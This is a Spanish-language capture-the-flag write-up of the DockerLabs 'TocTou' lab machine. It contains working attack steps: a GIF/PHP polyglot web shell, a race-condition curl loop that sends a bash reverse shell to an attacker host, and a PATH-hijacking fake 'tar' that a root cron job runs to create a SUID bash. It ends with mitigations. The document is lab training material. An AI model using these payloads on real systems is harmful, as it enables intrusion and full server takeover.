




# TocTou — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Mid | **Target IP:** 172.17.0.2 | 

## Descripcion 

Máquina web que simula un servicio de subida de archivos, donde el control de validación del lado del servidor tiene una vulnerabilidad, seguido de una fase de post-explotación para elevar privilegios hasta el usuario con máximos permisos.

## Attack chain

**Nmap → Web Enumeration → Gobuster → TOCTOU (Race Condition) → PHP Remote Code Execution → Reverse Shell → www-data Access → Cron Job Enumeration → PATH Hijacking → SUID Bash → Root**

## 1. Analisis y escaneo del objetivo.

Escaneo completo de puertos con `nmap`:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-12 17:13 -0300
Nmap scan report for 172.17.0.2
Host is up (0.000036s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.69 ((Debian))
|_http-server-header: Apache/2.4.69 (Debian)
|_http-title: Zumba Files \xE2\x80\x94 Env\xC3\xADa archivos en segundos
MAC Address: 7E:C3:AC:D0:74:06 (Unknown)

```
Resultado: solo puerto **80/tcp abierto**, Apache 2.4.69 (Debian).

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ whatweb 172.17.0.2
ERROR Opening: https://172.17.0.2 - Connection refused - connect(2) for "172.17.0.2" port 443
http://172.17.0.2 [200 OK] Apache[2.4.69], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.69 (Debian)], IP[172.17.0.2], Script, Title[Zumba Files — Envía archivos en segundos]

```

Ingresamos a `172.17.0.2` nos encontramos con la siguiente pagina 



Confirma un sitio de subida de archivos ("Zumba Files"), con rutas `/`, `/archivos`, `/nosotros`.


## 2. Enumeracion WEB 

Fuzzing de directorios con `gobuster`:

```bash
                                                                                                                                 
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirb/common.txt -x php,js,txt
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,js,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.cache               (Status: 301) [Size: 349] [--> http://172.17.0.2/.cache/]
archivos             (Status: 301) [Size: 351] [--> http://172.17.0.2/archivos/]
assets               (Status: 301) [Size: 349] [--> http://172.17.0.2/assets/]
index.html           (Status: 200) [Size: 3070]
server-status        (Status: 403) [Size: 315]
upload.php           (Status: 400) [Size: 62]
uploads              (Status: 301) [Size: 350] [--> http://172.17.0.2/uploads/]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================

```

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ curl -s http://172.17.0.2/assets/app.js

```

Puntos clave del JS:

• El upload va por `POST /upload.php` con `FormData`.

• Tras terminar la transferencia, muestra un mensaje de "**Verificando..." / "Analizando el archivo en busca de contenido no permitido...**".

• Ese delay explícito entre "subido" y "verificado" es la pista de un posible TOCTOU (Time-Of-Check-To-Time-Of-Use).

 
## 3. Descubriendo el filtro

Probando desde el propio formulario web con un archivo que no es imagen, la página devuelve directamente:



Subiendo una imagen real (una foto cualquiera) desde el formulario, se confirma que el flujo normal funciona y se obtiene el patrón de URL — visible en la respuesta mostrada por la página o inspeccionando la pestaña "Network" del navegador:



→ el archivo se guarda con su nombre original en `/uploads/<nombre del archivo>`, sin renombrarlo.

Se arma entonces un **polyglot**: magic bytes de GIF válido + código PHP:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ printf 'GIF89a;\n<?php system($_GET["cmd"]); ?>' > shell.php

```
Subiéndolo por el mismo formulario web, la página responde:



Pasa el chequeo de cabecera (paso 1) pero cae en el análisis de contenido diferido (paso 3) — confirma que hay dos etapas de validación separadas en el tiempo.

### 3.1 Explotando la race condition (TOCTOU)

Exploit — ráfaga de requests en paralelo al upload:

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ printf 'GIF89a;\n<?php system($_GET["cmd"]); ?>' > shell.php
                                                                                                                                
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ PAYLOAD='bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"'
                                                                                                                                
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ ( for i in $(seq 1 500); do curl -s "http://172.17.0.2/uploads/shell.php" --data-urlencode "cmd=$PAYLOAD" -G -o /dev/null & done ) & curl -s -F "file=@shell.php" http://172.17.0.2/upload.php wait
[1] 49032
[1]  + done       ( for i in $(seq 1 500); do; curl -s "http://172.17.0.2/uploads/shell.php"   )
{"ok":false,"error":"El an\u00e1lisis detect\u00f3 contenido potencialmente peligroso. Archivo rechazado."} 

```

• Se lanzan 500 `GET` en paralelo contra la URL final del archivo, apuntando a ejecutar el comando vía `$_GET['cmd']`.

• Casi simultáneamente se dispara el `upload.php`, que escribe el archivo a disco.

• Alguno de los 500 requests llega dentro de la ventana de 3 segundos → Apache ejecuta el PHP → reverse shell.

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34068
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@aa50de1ae5f4:/var/www/html/uploads$ 


```
Estabilizamos terminal

```bash

┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ nc -lvnp 4444              
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 57986
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@aa50de1ae5f4:/var/www/html/uploads$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
www-data@aa50de1ae5f4:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                                
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/toctou]
└─$ stty raw -echo; fg                             
[1]  + continued  nc -lvnp 4444

www-data@aa50de1ae5f4:/var/www/html/uploads$ export TERM=xterm
www-data@aa50de1ae5f4:/var/www/html/uploads$ stty rows 22 columns 128
www-data@aa50de1ae5f4:/var/www/html/uploads$ 

```
### 4. Enumeración de privesc

Checklist estándar de enumeración Linux: `sudo -l`, binarios SUID, usuarios con shell, y tareas programadas que corren como root.

```bash

sudo -l                                  # sudo no instalado
find / -perm -4000 -type f 2>/dev/null   # solo SUID estándar de Debian
cat /etc/passwd                          # sin usuarios adicionales con shell
ls -la /home                             # vacío

```

Revisando cron (`/etc/crontab` y `/etc/cron.d/`):

```bash

cat /etc/crontab           # solo tareas default de Debian (run-parts, anacron)

www-data@aa50de1ae5f4:/var/www/html/uploads$ ls -la /etc/cron.d
total 20
drwxr-xr-x 1 root root 4096 Oct 27 22:02 .
drwxr-xr-x 1 root root 4096 Nov 12 20:13 ..
-rw-r--r-- 1 root root  102 Jun 13  2025 .placeholder
-rw-r--r-- 1 root root  712 Dec  4  2024 php
-rw-r--r-- 1 root root  117 Oct 27 22:00 zumba-backup
www-data@aa50de1ae5f4:/var/www/html/uploads$ cat /etc/cron.d/zumba-backup 
# Copia de seguridad de las subidas de Zumba Files (cada minuto)
* * * * * root /opt/zumba/backup.sh >/dev/null 2>&1
www-data@aa50de1ae5f4:/var/www/html/uploads$ 

```
Hallazgo clave:

```bash
www-data@aa50de1ae5f4:/var/www/html/uploads$ cat /etc/cron.d/zumba-backup 
# Copia de seguridad de las subidas de Zumba Files (cada minuto)
* * * * * root /opt/zumba/backup.sh >/dev/null 2>&1
www-data@aa50de1ae5f4:/var/www/html/uploads$ 

```

Un script corre como root cada minuto. Se lee el script:

```bash
www-data@aa50de1ae5f4:/var/www/html/uploads$ cat /opt/zumba/backup.sh 
#!/bin/bash
#
# Zumba Files — copia de seguridad periódica de la carpeta de subidas.
# Pensado para ejecutarse desde cron. Comprime /var/www/html/uploads en
# /var/backups para poder recuperar envíos recientes si algo va mal.
#
# NOTA del equipo: cargamos nuestro directorio de utilidades propio delante
# del PATH para poder usar versiones "tuneadas" de las herramientas de backup.
export PATH=/opt/zumba/bin:$PATH

STAMP=$(date +%Y%m%d-%H%M%S)
cd /var/www/html/uploads || exit 0

# Empaquetamos el contenido actual de la carpeta de subidas.
tar -czf "/var/backups/uploads-${STAMP}.tar.gz" . 2>/dev/null

# Rotación simple: conservamos solo las 5 copias más recientes.
ls -1t /var/backups/uploads-*.tar.gz 2>/dev/null | tail -n +6 | xargs -r rm -f
www-data@aa50de1ae5f4:/var/www/html/uploads$

```
El script:

• Antepone `/opt/zumba/bin` al `PATH` (el comentario del código lo justifica como "herramientas de backup tuneadas").

• Llama a `tar` **sin ruta absoluta** — por lo tanto se busca primero en el directorio recién antepuesto.

```bash

www-data@aa50de1ae5f4:/var/www/html/uploads$ ls -la /opt/zumba/bin
total 8
drwxrwxr-x 1 www-data www-data 4096 Oct 27 22:02 .
drwxr-xr-x 1 root     root     4096 Oct 27 22:02 ..
www-data@aa50de1ae5f4:/var/www/html/uploads$ 

```

Carpeta controlada por `www-data` (nuestro usuario actual), antepuesta al PATH, usada por un proceso que corre como root. Requisitos del PATH hijacking cumplidos.

### 5. PATH hijacking → Root

Se crea un `tar` falso en la carpeta escribible:

```bash
www-data@aa50de1ae5f4:/var/www/html/uploads$ cat << 'EOF' > /opt/zumba/bin/tar
> #!/bin/bash
> cp /bin/bash /tmp/rootbash
> chmod u+s /tmp/rootbash
> EOF
www-data@aa50de1ae5f4:/var/www/html/uploads$ chmod +x /opt/zumba/bin/tar

```
Se espera al próximo disparo del cron (≤60s):

```bash

www-data@aa50de1ae5f4:/var/www/html/uploads$ sleep 65
www-data@aa50de1ae5f4:/var/www/html/uploads$ ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 1298416 Nov 12 21:55 /tmp/rootbash

```
El cron ejecutó `backup.sh` como root. El script modificó su PATH y llamó a `tar` sin ruta absoluta; bash resolvió el nombre buscando primero en `/opt/zumba/bin`, encontró el `tar` falso y lo ejecutó **con privilegios de root** (porque todo el proceso del cron corre como root). El cp resultante quedó con dueño root, y el `chmod u+s ` le dio bit SUID.

```bash

www-data@aa50de1ae5f4:/var/www/html/uploads$ /tmp/rootbash -p
rootbash-5.2# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
rootbash-5.2# whoami
root
rootbash-5.2# 

```
El flag `-p` es necesario: sin él, bash detecta que el UID real (`www-data`) no coincide con el UID efectivo (`root`) y renuncia automáticamente a los privilegios elevados por seguridad.


# Conclusión

A partir del escaneo inicial con **Nmap**, se identificó un servidor Apache en el puerto `80`. Durante la enumeración web, mediante **Gobuster**, se descubrieron diferentes rutas y archivos. Posteriormente, al analizar el funcionamiento de la subida de archivos y el código JavaScript, se identificó una vulnerabilidad **TOCTOU (Race Condition)**, que permitió ejecutar código PHP remotamente y obtener una shell reversa como el usuario `www-data`.

Una vez dentro del sistema, se revisaron las tareas programadas de `cron`, identificando un script de backup ejecutado como `root` que utilizaba un directorio modificable por `www-data` dentro de la variable `PATH`. Aprovechando esta configuración, se realizó un **PATH Hijacking** mediante un falso binario `tar`, logrando crear una Bash con permisos SUID.

Finalmente, ejecutando Bash con la opción `-p`, se consiguió acceso como `root`, completando la máquina.

En conclusión, **TocTou** permite comprender cómo una vulnerabilidad TOCTOU puede facilitar la ejecución remota de código y cómo una configuración insegura de tareas cron y variables de entorno puede utilizarse para escalar privilegios dentro de un sistema.

| Vulnerabilidad / Técnica | Impacto | Mitigación |
|---|---|---|
| **TOCTOU (Race Condition)** | Permite aprovechar una ventana de tiempo entre la validación y el uso de un archivo para acceder a contenido no autorizado. | Evitar operaciones vulnerables entre validaciones y uso de archivos, utilizando mecanismos seguros de acceso y bloqueo. |
| **Remote Code Execution (RCE)** | Permite ejecutar comandos arbitrarios en el servidor. | Validar las entradas, restringir la ejecución de código y mantener las aplicaciones actualizadas. |
| **Configuración insegura de Cron** | Permite aprovechar tareas programadas con privilegios elevados para ejecutar código como `root`. | Revisar los permisos de scripts y directorios utilizados por tareas programadas. |
| **PATH Hijacking** | Permite sustituir ejecutables legítimos por archivos controlados por un usuario sin privilegios. | Utilizar rutas absolutas para ejecutar binarios y evitar directorios modificables por usuarios no privilegiados en el `PATH`. |
| **Abuso del bit SUID** | Permite ejecutar Bash conservando privilegios elevados. | Evitar asignar permisos SUID a binarios innecesarios y auditar periódicamente estos archivos. |

## Recomendaciones generales

- Implementar validaciones seguras durante la subida de archivos.
- Evitar condiciones de carrera entre la validación y el procesamiento de archivos.
- Restringir los permisos de escritura sobre directorios utilizados por tareas de `cron`.
- Utilizar rutas absolutas para ejecutar comandos en scripts administrativos.
- Revisar periódicamente las variables de entorno de procesos privilegiados.
- Auditar los archivos con permisos SUID y aplicar el principio de mínimo privilegio.
